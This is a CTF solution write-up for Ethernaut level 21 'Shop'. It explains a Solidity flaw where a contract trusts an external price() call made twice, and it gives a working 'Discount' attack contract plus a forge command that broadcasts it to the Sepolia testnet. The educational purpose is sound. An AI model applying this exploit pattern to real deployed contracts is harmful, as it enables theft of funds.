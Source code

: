 <div align="center">
<p align="left">(<a href="https://github.com/Pedrojok01/Ethernaut-Solutions?tab=readme-ov-file#solutions">back</a>)</p>

<img src="../assets/levels/21-shop.webp" width="600px"/>
<br><br>
<h1><strong>Ethernaut Level 21 - Shop</strong></h1>

</div>
<br>

Read the article directly on my blog: [Ethernaut Solutions | Level 21 - Shop](https://blog.pedrojok.com/the-ethernaut-ctf-solutions-21-shop)

## Table of Contents

- [Table of Contents](#table-of-contents)
- [Goals](#goals)
- [The hack](#the-hack)
- [Solution](#solution)
- [Takeaway](#takeaway)

## Goals

<img src="../assets/requirements/21-shop-requirements.webp" width="800px"/>

## The hack

The goal of the Shop challenge is to buy an item from the contract at a discount. How to do that? Let's check the `buy()` function:

```javascript
function buy() public {
    Buyer _buyer = Buyer(msg.sender);

    if (_buyer.price() >= price && !isSold) {
      isSold = true;
      price = _buyer.price();
    }
}
```

It seems that only a price equal to or greater than the current price will be accepted. However, the `price()` function is not a simple getter, but rather an interface without any logic. So what if we could set our own logic?

This is quite similar to the level [11 - Elevator](../solutions/11_Elevator.md). We can create a new contract that implements the `Buyer` interface and sets our custom logic for the `price()` function.

Now, we simply have to mess with this part:

```javascript
if (_buyer.price() >= price && !isSold) {
  isSold = true;
  price = _buyer.price();
}
```

Notice how the `price()` is called twice. Once to check that the price paid is enough, then again to set the price to its new value.
So we want `!sold` to be false and `price` to be more than 100 the first time to pass the condition, and then `!sold` to be true and `price` to be as little as possible the second time. And there will be our discount.

## Solution

Let's implement the code accordingly:

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

interface IShop {
    function isSold() external view returns (bool);

    function buy() external;
}

contract Discount {
    IShop shop;

    constructor(address _shop) {
        shop = IShop(_shop);
    }

    function price() public view returns (uint256) {
        return shop.isSold() ? 1 : 101;
    }

    function attack() public {
        shop.buy();
    }
}
```

Then run the script with the following command:

```bash
forge script script/21_Shop.s.sol:PoC --rpc-url sepolia --broadcast --watch
```

## Takeaway

- Don't change the state based on external and untrusted contracts logic.

<div align="center">
<br>
<h2>🎉 Level completed! 🎉</h2>
</div>
